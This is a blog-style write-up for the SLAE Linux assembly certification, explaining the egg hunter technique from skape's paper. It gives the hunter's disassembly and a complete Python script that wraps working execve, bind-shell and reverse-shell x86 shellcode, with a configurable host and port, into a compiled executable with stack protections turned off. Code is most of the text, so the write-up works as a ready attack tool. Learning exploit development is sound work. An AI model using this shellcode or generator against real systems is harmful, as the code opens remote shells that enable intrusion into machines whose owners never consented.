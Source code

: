 # Assignment 3: Egg Hunter

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-670

### Problem

- Study about the Egg Hunter shellcode
- Create a working demo of the Egghunter
- Should be configurable for different payloads

### Solution

The first part of the task was to research what the Egg Hunter is and how it works. The following paper was used as the theoretical basis and the cornerstone of the final implementation:

![Safely Searching Process Virtual Address Space](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf) by skape

The following Egg Hunter implementation used was used as the prototype to complete the task:

```nasm
00000000  6681C9FF0F        or cx,0xfff
00000005  41                inc ecx
00000006  6A43              push byte +0x43
00000008  58                pop eax
00000009  CD80              int 0x80
0000000B  3CF2              cmp al,0xf2
0000000D  74F1              jz 0x0
0000000F  B841414141        mov eax,0x41414141
00000014  89CF              mov edi,ecx
00000016  AF                scasd
00000017  75EC              jnz 0x5
00000019  AF                scasd
0000001A  75E9              jnz 0x5
0000001C  FFE7              jmp edi
```

As described skape's paper, the above code will execute the `sigaction()` system call on each memory within an address space incrementally in an attempt to identify accesible memory regions. For each region identified, the code will incrementally traverse it looking for the Egg, which is nothing but a unique known string injected at the beginning of the actual shellcode. Since the Egg is 8-byte aligned, the next address after the Egg will be the shellcode, which is where execution flow is transfered after the Egg is identified. 

The final imlementation in Python uses the prototype Egg Hunter shellcode to add egg, shellcode and output file configuration options. The script allows to choose between Execve, Bind TCP, and Reverse TCP shellcodes, providing attional functionality for setting the remote and local host IP and port parameters. 

## egghunter.py

```python
#!/usr/bin/python

#####	Generate an executable 		

def generateElf(shellcode):
	print "\n[+] Staged Shellcode Length: %d\n" % len(bytearray(shellcode))
	sc = ""
	for c in bytearray(shellcode):
		sc += "\\x%02x" % c
	print sc

	egg = ""
	for c in range(0, 8, 2):
		egg += "\\x%s%s" % (args.egg[c], args.egg[c+1])
	print "\n[+] Egg: %s" % egg

	skeleton = '''
	#include<stdio.h>
	#include<string.h>
	#define EGG "__EGG__"
	unsigned char code[] = EGG EGG "__SHELLCODE__";
	unsigned char hunter[] = \\
		"\\x66\\x81\\xc9\\xff\\x0f\\x41\\x6a\\x43\\x58\\xcd\\x80\\x3c\\xf2\\x74"
		"\\xf1\\xb8"   EGG  "\\x89\\xcf\\xaf\\x75\\xec\\xaf\\x75\\xe9\\xff\\xe7";
	main() {
		printf("Hunter Shellcode Length:  %d\\n", strlen(hunter));
		int (*ret)() = (int(*)())hunter;
		ret();
	}	
	'''

	skeleton = skeleton.replace("__EGG__", egg)
	skeleton = skeleton.replace("__SHELLCODE__", sc)

	with open("a.c", "w") as f:
		f.write(skeleton)

	os.system("gcc a.c -fno-stack-protector -z execstack")
	os.rename("a.out", args.outfile)
	os.rename("a.c", "%s.c" % args.outfile)

	print "\n[+] Executable: %s\n" % args.outfile


def execShellcode(args):

	shellcode = (
		"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x8d"
		"\x1c\x24\x50\x8d\x14\x24\x53\x8d\x0c\x24\xb0\x0b\xcd\x80"
	)

	generateElf(shellcode)


def bindShellcode(args):

	port = struct.pack(">H", int(args.lport))

	shellcode = (
		"\x31\xc0\x31\xdb\x6a\x06\x6a\x01\x6a\x02\x89\xe1\xb3\x01"
		"\xb0\x66\xcd\x80\x89\xc6\x31\xc0\xb0\x01\x50\x89\xe1\x51"
		"\x40\x50\x48\x50\x56\x89\xe1\xb3\x0e\xb0\x66\xcd\x80\x31"
		"\xc0\x50\x66\x68"+port+"\x66\x6a\x02\x89\xe1\x6a\x10\x51"
		"\x56\x89\xe1\xb3\x02\xb0\x66\xcd\x80\x66\x68\x02\x10\x56"
		"\x89\xe1\xb3\x04\xb0\x66\xcd\x80\x31\xc0\x50\x50\x56\x89"
		"\xe1\xb3\x05\xb0\x66\xcd\x80\x89\xc7\x31\xc9\xb1\x02\x89"
		"\xfb\x31\xc0\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc0\x50\x68"
		"\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2"
		"\x53\x89\xe1\xb0\x0b\xcd\x80\xe9\x76\xff\xff\xff"
		)

	generateElf(shellcode)


def revShellcode(args):
	host = ""
	addr = args.lhost.split(".")
	for a in addr:
		host += struct.pack(">B", int(a))

	port = struct.pack(">H", int(args.lport))

	shellcode = (
		"\x31\xc0\x31\xdb\x6a\x06\x6a\x01\x6a\x02\x89\xe1"
		"\xb3\x01\xb0\x66\xcd\x80\x89\xc6\x68"+host+"\x66"
		"\x68"+port+"\x66\x6a\x02\x89\xe1\x6a\x10\x51\x56"
		"\x89\xe1\xb3\x03\xb0\x66\xcd\x80\x31\xc9\xb1\x02"
		"\x89\xf3\x31\xc0\xb0\x3f\xcd\x80\x49\x79\xf9\x31"
		"\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e"
		"\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
		)

	generateElf(shellcode)


import sys
import os
import struct
import argparse

a = argparse.ArgumentParser()
suba = a.add_subparsers()

execa = suba.add_parser("exec")
execa.set_defaults(func=execShellcode)

binda = suba.add_parser("bind")
binda.add_argument("--lport", "-p", type=int, required=True, help="LPORT (must be between 1 and 65535)")
binda.set_defaults(func=bindShellcode)

reva = suba.add_parser("reverse")
reva.add_argument("--lhost", "-l", required=True, help="LHOST (must be IPv4)")
reva.add_argument("--lport", "-p", type=int, required=True, help="LPORT (must be between 1 and 65535)")
reva.set_defaults(func=revShellcode)

a.add_argument("--egg", "-e", default="41414141", help="EGG to hunt (must be 8 bytes; default: 41414141)")
a.add_argument("--outfile", "-o", default="hunter", help="Output ELF executable filename (default: hunter)")

args = a.parse_args()
print "\n",args,"\n"

error = False
if len(args.egg) != 8: 
	print "[!] Bad EGG!"
	error = True

if len(args.lhost.split(".")) != 4: 
	print "[!] Bad LHOST!"
	error = True

if args.lport not in range(1,65536):
	print "[!] Bad LPORT!"
	error = True	

if error: 
	print
	sys.exit()

args.func(args)
```

## Example

A sample run produces the following output:

![alt text](https://github.com/adeptex/SLAE/blob/master/Assignment-3/a3.png "Example")
